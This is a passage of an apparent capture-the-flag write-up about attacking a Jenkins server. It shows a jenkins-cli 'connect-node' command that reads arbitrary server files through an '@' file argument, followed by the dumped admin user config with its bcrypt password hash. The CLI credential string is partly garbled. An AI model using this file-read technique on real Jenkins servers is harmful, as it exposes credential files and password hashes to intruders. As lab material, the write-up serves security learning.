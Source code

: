 ```xml
<?xml version='1.1' encoding='UTF-8'?>
<hudson.model.UserIdMapper>
  <version>1</version>
  <idToDirectoryNameMap class="concurrent-hash-map">
    <entry>
      <string>admin</string>
      <string>admin_14925462988873490586</string> </entry>
    <entry>
      <string>developer</string>
      <string>developer_15237871593234261185</string> </entry>
    </idToDirectoryNameMap>
</hudson.model.UserIdMapper>
```

I tried to see if I could pull user info directly

```bash
java -jar jenkins-cli.jar -s http://glitch-two.3f30795e908a7c17.ctf.land:7756 -auth developer:11b76192no because its the same flag3d80e56860f480c20f5748d594 -webSocket connect-node @/var/jenkins_home/users/users.xml
```

```xml
<?xml version='1.1' encoding='UTF-8'?>
<user>
  <version>10</version>
  <id>admin</id>
  <fullName>admin</fullName>
  <properties>
    <hudson.model.PaneStatusProperties>
      <collapsed/>
    </hudson.model.PaneStatusProperties>
    <jenkins.security.ApiTokenProperty> <tokenStore>
        <tokenList/> </tokenStore>
    </jenkins.security.ApiTokenProperty>
    <com.cloudbees.plugins.credentials.UserCredentialsProvider_-UserCredentialsProperty plugin="credentials@1380.va_435002fa_924">
      <domainCredentialsMap class="hudson.util.CopyOnWriteMap$Hash"/> </com.cloudbees.plugins.credentials.UserCredentialsProvider_-UserCredentialsProperty>
    <hudson.model.MyViewsProperty>
      <views>
        <hudson.model.AllView>
          <owner class="hudson.model.MyViewsProperty" reference="../../.."/>
          <name>all</name>
          <filterExecutors>false</filterExecutors>
          <filterQueue>false</filterQueue>
          <properties class="hudson.model.View$PropertyList"/>
        </hudson.model.AllView>
      </views>
    </hudson.model.MyViewsProperty>
    <hudson.model.TimeZoneProperty/>
    <hudson.search.UserSearchProperty>
      <insensitiveSearch>true</insensitiveSearch>
    </hudson.search.UserSearchProperty>
    <jenkins.security.seed.UserSeedProperty>
      <seed>d1909e4b097f37f3</seed>
    </jenkins.security.seed.UserSeedProperty>
    <hudson.security.HudsonPrivateSecurityRealm_-Details>
      <passwordHash>#jbcrypt:$2a$10$TS1uvYR2zRJm2Ui5TcPgOe5uZHN97xPTk5H8Dzc4zJ8gvV0WPQwUi</passwordHash> </hudson.security.HudsonPrivateSecurityRealm_-Details>
    <jenkins.console.ConsoleUrlProviderUserProperty/>
    <jenkins.model.experimentalflags.UserExperimentalFlagsProperty>
      <flags/>
    </jenkins.model.experimentalflags.UserExperimentalFlagsProperty>
  </properties>
```
